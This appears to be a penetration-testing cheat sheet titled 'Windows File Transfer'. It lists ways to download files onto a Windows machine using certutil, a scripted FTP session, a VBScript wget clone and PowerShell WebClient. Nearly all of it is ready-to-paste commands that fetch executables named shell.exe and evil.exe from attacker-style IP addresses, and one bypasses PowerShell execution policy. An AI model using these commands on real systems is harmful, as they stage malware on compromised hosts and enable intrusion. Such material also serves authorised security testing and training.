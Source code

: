 # Windows File Transfer

Certutil
- certutil.exe -urlcache -split -f "http://10.10.10.10/shell.exe" C:/Users/user/shell.exe

FTP
- echo open 192.168.1.101 21> ftp.txt
- echo USER asshat>> ftp.txt
- echo mysecretpassword>> ftp.txt
- echo bin>> ftp.txt
- echo GET wget.exe>> ftp.txt
- echo bye>> ftp.txt
Then run this command to connect to the ftp:
- ftp -v -n -s:ftp.txt

Of course you need to have a ftp-server configured with the user asshat and the password to mysecretpassword.

VBScript
Here is a good script to make a wget-clone in VB.
If it doesn't work try piping it through unix2dos before copying it.

- echo strUrl = WScript.Arguments.Item(0) > wget.vbs
- echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
- echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
- echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
- echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
- echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
- echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
- echo Err.Clear >> wget.vbs
- echo Set http = Nothing >> wget.vbs
- echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
- echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
- echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
- echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
- echo http.Open "GET",strURL,False >> wget.vbs
- echo http.Send >> wget.vbs
- echo varByteArray = http.ResponseBody >> wget.vbs
- echo Set http = Nothing >> wget.vbs
- echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
- echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
- echo strData = "" >> wget.vbs
- echo strBuffer = "" >> wget.vbs
- echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
- echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
- echo Next >> wget.vbs
- echo ts.Close >> wget.vbs

You then execute the script like this:
cscript wget.vbs http://192.168.10.5/evil.exe evil.exe

PowerShell
- echo $storageDir = $pwd > wget.ps1
- echo $webclient = New-Object System.Net.WebClient >>wget.ps1
- echo $url = "http://192.168.1.101/file.exe" >>wget.ps1
- echo $file = "output-file.exe" >>wget.ps1
- echo $webclient.DownloadFile($url,$file) >>wget.ps1
Now we invoke it with this crazy syntax:
- powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
